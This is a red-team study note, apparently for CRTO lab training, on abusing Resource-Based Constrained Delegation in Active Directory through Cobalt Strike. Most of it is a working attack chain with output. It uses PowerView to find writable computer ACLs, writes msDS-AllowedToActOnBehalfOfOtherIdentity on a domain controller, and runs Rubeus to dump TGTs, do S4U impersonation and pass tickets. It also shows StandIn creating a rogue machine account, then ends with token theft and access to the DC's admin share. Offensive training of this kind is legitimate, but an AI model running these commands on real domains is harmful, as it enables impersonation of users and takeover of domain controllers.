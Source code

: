
Allows the delegation configuration to be set on the target rather than the source. 

### 🖊️ How it works

With [[Constrained Delegation]], where for example a DC allows to delegate a certain computer to impersonate any user to any service in the DC, RBCD instead only requires that the user has certain property (can be WriteProperty, GenericAll, GenericWrite, GenericDacl) on the computer object to be able to reach it. 

### 📔 Requisites to attack

1. A target computer on which you can modify ==msDS-AllowedToActOnBehalfOfOtherIdentity.
2. Control of another principal that has an [[Service Principal Name (SPN)]].



###  📗 attack via Cobalt Strike 

1) Check every domain computer's ACL (looking for the rights we want)

```
beacon> powershell Get-DomainComputer | Get-DomainObjectAcl -ResolveGUIDs | ? { $_.ActiveDirectoryRights -match "WriteProperty|GenericWrite|GenericAll|WriteDacl" -and $_.SecurityIdentifier -match "S-1-5-21-569305411-121244042-2357301523-[\d]{4,10}" }

AceQualifier           : AccessAllowed
ObjectDN               : CN=DC-2,OU=Domain Controllers,DC=dev,DC=cyberbotic,DC=io
ActiveDirectoryRights  : Self, WriteProperty
ObjectAceType          : All
ObjectSID              : S-1-5-21-569305411-121244042-2357301523-1000
InheritanceFlags       : ContainerInherit
BinaryLength           : 56
AceType                : AccessAllowedObject
ObjectAceFlags         : InheritedObjectAceTypePresent
IsCallback             : False
PropagationFlags       : None
SecurityIdentifier     : S-1-5-21-569305411-121244042-2357301523-1107
AccessMask             : 40
AuditFlags             : None
IsInherited            : True
AceFlags               : ContainerInherit, Inherited
InheritedObjectAceType : Computer
OpaqueLength           : 0
```

The results can be bigger, in this example we find something interesting, a group (still don't know which), has writeproperty rights on all properties (ObjectAceType) for "DC-2" machine (check the common name CN=DC-2)

2) Figure out the group via security identifier

`beacon> powershell ConvertFrom-SID S-1-5-21-569305411-121244042-2357301523-1107`

3) We now need obtaining a principal with an SPN, so we can use a computer account. Locate a machine where you have SYSTEM rights (if you dont check RBCD with no SYSTEM, lower section). To start the attack, we need its SID.

In this example we have system on `wkstn-2`

```
beacon> powershell Get-DomainComputer -Identity wkstn-2 -Properties objectSid

objectsid                                   
---------                                   
S-1-5-21-569305411-121244042-2357301523-1109
```

4) We'll then use this SID inside an SDDL to create a security descriptor.  The content of ==msDS-AllowedToActOnBehalfOfOtherIdentity== must be in raw binary format. Write this in a notepad:
```
$rsd = New-Object Security.AccessControl.RawSecurityDescriptor "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;S-1-5-21-569305411-121244042-2357301523-1109)"
$rsdb = New-Object byte[] ($rsd.BinaryLength)
$rsd.GetBinaryForm($rsdb, 0)
```


5) These descriptor bytes can then be used with `Set-DomainObject`.  However, since we're working through Cobalt Strike, everything has to be concatenated into a single PowerShell command.
```
beacon> powershell $rsd = New-Object Security.AccessControl.RawSecurityDescriptor "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;S-1-5-21-569305411-121244042-2357301523-1109)"; $rsdb = New-Object byte[] ($rsd.BinaryLength); $rsd.GetBinaryForm($rsdb, 0); Get-DomainComputer -Identity "dc-2" | Set-DomainObject -Set @{'msDS-AllowedToActOnBehalfOfOtherIdentity' = $rsdb} -Verbose

Setting 'msDS-AllowedToActOnBehalfOfOtherIdentity' to '1 0 4 128 20 0 0 0 0 0 0 0 0 0 0 0 36 0 0 0 1 2 0 0 0 0 0 5 32 0 0 0 32 2 0 0 2 0 44 0 1 0 0 0 0 0 36 0 255 1 15 0 1 5 0 0 0 0 0 5 21 0 0 0 67 233 238 33 138 9 58 7 19 145 129 140 85 4 0 0' for object 'DC-2$'

beacon> powershell Get-DomainComputer -Identity "dc-2" -Properties msDS-AllowedToActOnBehalfOfOtherIdentity

msds-allowedtoactonbehalfofotheridentity
----------------------------------------
{1, 0, 4, 128...}
```

6) Next, we use the WKSN-2$ account to perform the S4U impersonation with Rubeus.  The `s4u` command requires a TGT, RC4 or AES hash.  Since we already have elevated access to it, we can just extract its TGT from memory.

```
beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe triage
beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe dump /luid:0x3e4 /service:krbtgt /nowrap
```

7) Now you execute [[S4U2Self Abuse]]

`beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe s4u /user:WKSTN-2$ /impersonateuser:nlamb /msdsspn:cifs/dc-2.dev.cyberbotic.io /ticket:doIFuD[...]5JTw== /nowrap`

8) Finally, pass the ticket into a logon session for use.

`beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe createnetonly /program:C:\Windows\System32\cmd.exe /domain:DEV /username:nlamb /password:FakePass /ticket:doIGcD[...]MuaW8=`

`beacon> steal_token 4092`

9) Check your access

`beacon> ls \\dc-2.dev.cyberbotic.io\c$`

To clear:
`beacon> powershell Get-DomainComputer -Identity dc-2 | Set-DomainObject -Clear msDS-AllowedToActOnBehalfOfOtherIdentity`


---
##### RBCD with no SYSTEM

If you did not have local admin access to a computer already, you can resort to creating your own computer object.  By default, even domain users can join up to 10 computers to a domain

1) [StandIn](https://github.com/FuzzySecurity/StandIn) is a post-ex toolkit written by [Ruben Boonen](https://twitter.com/FuzzySec) and has the functionality to create a computer with a random password.
```
beacon> execute-assembly C:\Tools\StandIn\StandIn\StandIn\bin\Release\StandIn.exe --computer EvilComputer --make

[?] Using DC    : dc-2.dev.cyberbotic.io
    |_ Domain   : dev.cyberbotic.io
    |_ DN       : CN=EvilComputer,CN=Computers,DC=dev,DC=cyberbotic,DC=io
    |_ Password : oIrpupAtF1YCXaw

[+] Machine account added to AD..
```

2) Rubeus `hash` can take that password and calculate their hashes.

```
PS C:\Users\Attacker> C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe hash /password:oIrpupAtF1YCXaw /user:EvilComputer$ /domain:dev.cyberbotic.io
```

3) These can then be used with `asktgt` to obtain a TGT for the fake computer.
```
beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe asktgt /user:EvilComputer$ /aes256:7A79DCC14E6508DA9536CD949D857B54AE4E119162A865C40B3FFD46059F7044 /nowrap
```

4) The rest of the attack is the same


### ⚠ Opsec




### Properties
---
📆 created   {{19-02-2024}} 11:34
🏷️ tags: #redteam #crto 

---

